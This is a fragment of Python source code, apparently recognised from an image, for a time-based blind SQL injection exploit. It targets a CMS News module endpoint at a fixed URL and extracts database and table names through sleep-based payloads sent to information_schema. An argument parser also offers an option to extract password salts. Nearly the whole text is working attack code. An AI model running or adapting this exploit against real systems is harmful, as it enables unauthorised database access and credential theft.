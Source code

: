 ```python
    # add extract salt option
    parser.add_argument("-s", "--salt", help="Extract salt", action="store_true")
    args = parser.parse_args()
    
    database = args.database
    table = args.table
    column = args.column
    salt = args.salt
    global TIME
    TIME = float(args.TIME)

    return database, table, column, salt

URL = "http://wireless.com/moduleinterface.php?mact=News,m1_,default,0&m1_idlist=a,b,1,5"


def get_databases():
    characters = string.printable
    p1 = log.progress("Getting databases")
    p2 = log.progress("Trying with")
    databases = ""

    for pos in range(1, 1000):
        for char in characters:
            p2.status(char)
            payload = f")) and ((select ascii(substring(group_concat(schema_name),{pos})) from information_schema.schemata)={ord(char)}) and (select sleep({TIME}))-- -"
            payload = urllib.parse.quote(payload)
            actual_time = time.time()
            r = requests.get(URL + payload)
            if time.time() - actual_time > TIME:
                databases += char
                p1.status(databases)
                break

            if char == characters[-1]:
                p2.success("Databases found")
                return databases


def get_tables(database):
    characters = string.printable
    p1 = log.progress("Getting tables")
    p2 = log.progress("Trying with")
    tables = ""
    database = database.encode('utf-8').hex()

    for pos in range(1, 1000):
        for char in characters:
            p2.status(char)
            payload = f")) and ((select ascii(substring(group_concat(table_name),{pos})) from information_schema.tables where table_schema = 0x{database})={ord(char)}) and (select sleep({TIME}))-- -"
            payload = urllib.parse.quote(payload)
            actual_time = time.time()
            r = requests.get(URL + payload)
            if time.time() - actual_time > TIME:
                tables += char
                p1.status(tables)
                break

            if char == characters[-1]:
                p2.success("Tables found")
                return tables
```